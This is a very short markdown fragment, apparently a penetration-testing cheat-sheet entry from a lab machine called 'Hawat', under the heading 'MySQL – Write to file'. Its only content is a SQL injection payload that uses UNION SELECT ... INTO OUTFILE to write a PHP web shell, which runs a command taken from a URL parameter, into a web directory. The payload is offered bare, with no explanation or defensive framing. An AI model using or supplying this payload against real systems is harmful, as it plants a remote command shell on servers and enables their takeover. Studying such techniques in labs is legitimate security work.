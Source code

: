 ## MySQL
#### Write to file
From the **Hawat** PG machine


```bash
UNION SELECT (<?php echo exec($_GET["cmd"]);) INTO OUTFILE '/srv/http/cmd.php'

```